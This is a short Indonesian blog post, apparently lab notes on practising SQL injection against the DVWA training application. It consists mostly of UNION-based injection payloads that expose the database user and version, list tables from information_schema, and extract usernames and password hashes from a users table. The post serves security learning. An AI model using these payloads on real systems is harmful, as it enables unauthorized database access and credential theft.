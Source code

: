 ```yaml
---
layout: post
title: "(a chunk) Injeksi SQL - dvwa"
date: 2019-02-28 05:22:15 +0000
categories: Technology
comments: false
---
```

- bisa melihat user yang ada akses database:

```sql
select first_name, last_name from users where user_id = '%' or 0=0 union select null, user() #';
```

- bisa lihat versi dari database:
```sql
select first_name, last_name from users where user_id = '%' or 0=0 union select null, version() #'
```
- Melihat informassi table2 yang ada dalam skema db kita
```sql
select first_name, last_name from users where user_id = '%' and 1=0 union select null, table_name from information_schema.tables  #';
```
- Untuk mengecek apakah ada table user di salah satu db, masukkan perintah:
{% highlight sql %}
select first_name, last_name from users where user_id = '%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#';

select first_name, last_name from users where user_id = '%' and 1=0 union select null, concat(first_name, 0x0a, last_name, 0x0a, user, 0x0a, password) from users #';

select first_name, last_name from users where user_id = '%' and 1=0 union select null, concat(first_name, 0x0a, last_name, 0x0a, user, 0x0a, password) from users #';

{% endhighlight %}